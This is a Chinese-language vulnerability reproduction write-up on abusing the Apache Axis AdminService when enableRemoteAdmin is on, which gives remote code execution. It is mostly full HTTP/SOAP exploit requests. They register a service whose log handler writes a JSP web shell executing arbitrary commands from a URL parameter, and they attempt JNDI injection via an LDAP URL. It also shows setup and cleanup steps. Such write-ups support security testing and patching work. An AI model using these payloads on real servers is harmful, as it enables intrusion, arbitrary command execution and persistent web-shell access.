





Apache Axis 远程代码执行漏洞 CVE-2019-0227¶
漏洞描述¶
Apache Axis 服务被用于部署各种接口服务。其中，AdminService 接口允许管理员远程访问管理服务，相关配置在 /axis/WEB-INF/server-config.wsdd(部署应用后产生)，其中enableRemoteAdmin默认为false，只允许本地管理。
若将enableRemoteAdmin设置为true，则可以执行 JNDI 注入，执行任意代码或反弹 Shell。
环境搭建¶
下载 axis bin 解压，将 webapps 下 axis 文件夹复制到 tomcat 环境下 webapps 目录下。
修改环境变量：
vim ~/.profile
export AXIS_HOME=/usr/tomcat/apache-tomcat-8.5.90/webapps/axis
export AXIS_LIB=$AXIS_HOME/WEB-INF/lib
export AXISCLASSPATH=$AXIS_LIB/axis.jar:$AXIS_LIB/commons-discovery-0.2.jar:$AXIS_LIB/commons-logging-1.0.4.jar:$AXIS_LIB/jaxrpc.jar:$AXIS_LIB/saaj.jar:$AXIS_LIB/log4j-1.2.8.jar:$AXIS_LIB/xml-apis.jar:$AXIS_LIB/xercesImpl.jar:$AXIS_LIB/wsdl4j-1.5.1.jar
刷新环境变量：
source ~/.profile
开启RemoteAdmin服务：
vim webapps/axis/WEB-INF/deploy.wsdd
<deployment xmlns="http://xml.apache.org/axis/wsdd/"
xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
<service name="AdminService" provider="java:MSG">
<parameter name="className" value="org.apache.axis.utils.Admin"/>
<parameter name="allowedMethods" value="*"/>
<parameter name="enableRemoteAdmin" value="true"/>
</service>
</deployment>
刷新配置：
java -cp $AXISCLASSPATH org.apache.axis.client.AdminClient deploy.wsdd
漏洞复现¶
RandomService 报错getshell¶
注册服务，指定日志目录为shell路径：
<parameter name="LogHandler.fileName" value="../webapps/axis/shell.jsp" />
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
Content-Length: 1059
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<soapenv:Body>
<ns1:deployment
xmlns="http://xml.apache.org/axis/wsdd/"
xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
xmlns:ns1="http://xml.apache.org/axis/wsdd/">
<ns1:service name="RandomService" provider="java:RPC">
<requestFlow>
<handler type="RandomLog"/>
</requestFlow>
<ns1:parameter name="className" value="java.util.Random"/>
<ns1:parameter name="allowedMethods" value="*"/>
</ns1:service>
<handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" >
<parameter name="LogHandler.fileName" value="../webapps/axis/shell.jsp" />
<parameter name="LogHandler.writeToConsole" value="false" />
</handler>
</ns1:deployment>
</soapenv:Body>
</soapenv:Envelope>

请求RandomService，利用报错将错误日志写入到shell文件：
POST /axis/services/RandomService HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
Content-Length: 874
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<soapenv:Body>
<api:main
soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<api:in0><![CDATA[
<%@page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%>
]]>
</api:in0>
</api:main>
</soapenv:Body>
</soapenv:Envelope>

shell 地址：
view-source:http://your-ip:8080/axis/shell.jsp?c=pwd

这里的 shell 写入路径 LogHandler.fileName 为 ../webapps/axis/shell.jsp，实际遇到的目标启动路径可能不同，需要根据实际对写入的路径做相应的变动。
卸载服务：
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 458
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<soapenv:Body>
<undeployment xmlns="http://xml.apache.org/axis/wsdd/">
<service name="randomService"/>
<handler name="RandomLog"/>
<service name="jndiService"/>
</undeployment>
</soapenv:Body>
</soapenv:Envelope>
AdminService JNDI注入¶
注册服务：
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 746
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:api="http://127.0.0.1/Integrics/Enswitch/API" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<soapenv:Body>
<ns1:deployment xmlns:ns1="http://xml.apache.org/axis/wsdd/" xmlns="http://xml.apache.org/axis/wsdd/" xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
<ns1:service name="testService" provider="java:RPC">
<ns1:parameter name="className" value="org.apache.axis.client.ServiceFactory"/>
<ns1:parameter name="allowedMethods" value="*"/>
</ns1:service>
</ns1:deployment>
</soapenv:Body>
</soapenv:Envelope>

访问创建的testService进行jndi注入：
POST /axis/services/testService HTTP/1.1
Host: your-ip:8080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/axis/servlet/AxisServlet
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-TW;q=0.9,zh-CN;q=0.8
Connection: close
SOAPAction:
Content-Type: text/xml;charset=UTF-8
Content-Length: 791
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:buil="http://build.antlr">
<soapenv:Header/>
<soapenv:Body>
<buil:getService soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<environment xmlns:apachesoap="http://xml.apache.org/xml-soap" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xsi:type="apachesoap:Map">
<item>
<key xsi:type="soapenc:string">jndiName</key>
<value xsi:type="soapenc:string">ldap://your-ip:1389/dlmaty</value>
</item>
</environment>
</buil:getService>
</soapenv:Body>
</soapenv:Envelope>
这里 JNDI 注入**不成功**，报错 java.lang.ClassCastException: javax.naming.Reference cannot be cast to org.apache.axis.client.Service。
可能是复现的环境采用需要1.8.0_102之前的环境。（待测）

卸载服务：
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 458
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<soapenv:Body>
<undeployment xmlns="http://xml.apache.org/axis/wsdd/">
<service name="testService"/>
</undeployment>
</soapenv:Body>
</soapenv:Envelope>